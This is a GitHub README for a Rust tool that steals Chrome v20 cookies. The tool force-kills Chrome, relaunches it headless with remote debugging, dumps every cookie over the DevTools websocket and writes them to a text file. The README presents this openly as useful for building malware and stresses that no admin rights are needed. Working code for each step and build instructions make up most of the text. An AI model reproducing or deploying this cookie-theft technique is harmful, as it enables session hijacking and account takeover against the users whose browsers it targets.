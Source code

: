 ## bypass_v20_chrome_cookies
🚀 This repository **is a simple Rust project** for retrieving **Chrome v20 cookies.**
No **admin rights are required** to run the app. So this can be interesting for creating **malware**. 

## 📌 Features
- Retrieve cookies v20 from **Chrome Debugger**
- **Simple and lightweight** Rust implementation
- **Easy** to use

## 🛠️ How It Works
This project uses **Rust** to retrieve **Chrome v20 cookies** using chrome debugging. Here are the main steps:
- **Checks if the program ```'chrome.exe'``` is running**: If it does, it closes it automatically.
```rust
fn verify_chrome() {
    let verify_chrome = Command::new("cmd.exe")
            .arg("/C")
            .arg("tasklist")
            .output()
            .unwrap();

    let result1 = String::from_utf8_lossy(&verify_chrome.stdout);

    if result1.contains("chrome.exe") {
        let _ = Command::new("taskkill")
                .arg("/F")
                .arg("/IM")
                .arg("chrome.exe")
                .output()
                .unwrap();


        thread::sleep(Duration::from_secs(2)); 
    }
}
```

- **Launches the Chrome Debugger**: Start Chrome in headless mode with remote debugging enabled.
```rust
let _ = Command::new(path_chrome)
            .arg(format!("--remote-debugging-port={}", port_debugging))
            .arg("--remote-allow-origins=*")
            .arg("--headless")
            .arg(format!("--user-data-dir={}", path_user))
            .stdout(Stdio::null()) 
            .stderr(Stdio::null())
            .spawn()?;
```

- **Get the value of ```webSocketDebuggerUrl```**: Use ```reqwest``` to retrieve the ```webSocketDebuggerUrl``` for WebSocket communication.
```rust
let resp = reqwest::blocking::get(format!("http://localhost:{}/json", port_debugging))?;
let ws_url = json[0]["webSocketDebuggerUrl"].as_str().unwrap().to_string();
```

- **Connects to websocket and Send datas to retrieve Cookies**: Send a command to fetch all cookies via WebSocket.
```rust
let (mut socket, _) = connect(ws_url)?;
let data = serde_json::json!({ "id": 1, "method": "Network.getAllCookies" });
socket.send(Message::Text(data.to_string()))?;
```

- **Store Cookies**: Write the retrieved cookies to ```cookies.txt```

- **Clean Up**: Terminate the Chrome process to clean up resources.
```rust
let _ = Command::new("taskkill")
            .arg("/F")
            .arg("/IM")
            .arg("chrome.exe")
            .output()
            .unwrap();
```

## 📥 Installation
Make sure you have **Rust** installed. If not, you can install it via this website [rust](https://www.rust-lang.org/fr/tools/install):       
```
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```
Then, clone this repository and build the project:
```
git clone https://github.com/bypass_v20_chrome_cookies
cd bypass_v20_chrome_cookies
cargo build --release
```

## 🚀 Usage
```
cargo run
```
Or use the compiled binary:
```
target/release/
```

## 🎉 Acknowledgments
- Inspired by various open-source **Chrome cookie** retrieval projects.


